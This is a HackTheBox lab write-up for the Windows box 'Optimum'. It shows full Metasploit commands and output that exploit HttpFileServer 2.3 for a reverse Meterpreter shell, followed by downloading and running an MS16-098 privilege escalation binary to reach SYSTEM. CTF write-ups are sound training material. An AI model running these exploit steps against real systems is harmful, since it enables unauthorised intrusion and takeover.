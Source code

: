 ```yaml
---
title: "HackTheBox - Optimum"
categories: writeups
layout: page
---
```


![Optimum](/assets/images/HTBoxes/Optimum/Optimum.png)

## Summary

Optium is a fairly straightforward easy rated Windows box.  It involves simple enumeration and exploitation via a readily available metasploit module for a foothold.  For privilege escalation, it requires enumeration of patch levels of the system to determine a relevant exploit for escalation.

## Walkthrough

### Enumeration

Ran the usual nmap ``nmap -A -T4 -v 10.10.10.8``

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

I went to the website and saw it is running [HTTP File Server software](https://www.rejetto.com/hfs/) v2.3.

![Optimum-website](/assets/images/HTBoxes/Optimum/optimum-website.png)

I did a ``searchsploit hfs`` and found this version seems to be vulnerable.

### Foothold

I loaded up msfconsole via ``msfconsole -q`` and found that there is a RCE metasploit module that we can use to gain a foothold.

```console
msf5 > search hfs

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2
014-9390
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.2
SRVHOST => 10.10.14.2
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Using URL: http://10.10.14.2:8080/Kzl4K6JceE
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Kzl4K6JceE
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.8:49162) at 2020-07-20 21:32:54 -0500
[!] Tried to delete %TEMP%\ytefKHKvAX.vbs, unknown result
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

### User

I listed the kostas desktop folder and there was a user.txt.  No need to pivot so I grabbed the user.txt sitting in the Desktop folder.

### Root

Now that I had user it was time to enumerate to find a path to admin.  I used the windows exploit suggester [tool]( https://github.com/GDSSecurity/Windows-Exploit-Suggester).

To gather the systeminfo for it I just used the meterpreter session:

```console
meterpreter > execute -f cmd.exe -a "/c systeminfo > systeminfo.txt"
Process 2072 created.
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-07-27 06:31:27 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 06:57:16 -0500  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 05:58:52 -0600  hfs.exe
100666/rw-rw-rw-  3334    fil   2020-07-27 07:16:36 -0500  systeminfo.txt
100444/r--r--r--  32      fil   2017-03-18 07:13:18 -0500  user.txt.txt

meterpreter > download systeminfo.txt
[*] Downloading: systeminfo.txt -> systeminfo.txt
[*] Downloaded 3.26 KiB of 3.26 KiB (100.0%): systeminfo.txt -> systeminfo.txt
[*] download   : systeminfo.txt -> systeminfo.txt
```

To get the script to run, it requires python2 and a library dependency.  I suggest using ``pipenv`` in the cloned folder.

```console
pipenv --python 2.7
pipenv install xlrd
pipenv run python2 ./windows-exploit-suggester.py --database 2020-07-20-mssb.xls --systeminfo systeminfo.txt
```

After executing the script, there's quite a few suggestions.  The one in the official HTB writeup is MS016-032.  However, I had issues trying to get it to work from metasploit.  After some googling I decided to try MS16-098.

``wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe``

Back in my meterpreter session I did a ``upload 41020.exe`` then opened a shell to execute it.

```console
meterpreter > shell
Process 2336 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>.\41020.exe
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

After this I simply went to the Desktop directory and grabbed the root.txt flag.

## Lessons Learned

On this box:

* Refreshed metasploit module searching and exploit execution
* Learned about a new python based windows priv esc tool (the suggester tool)
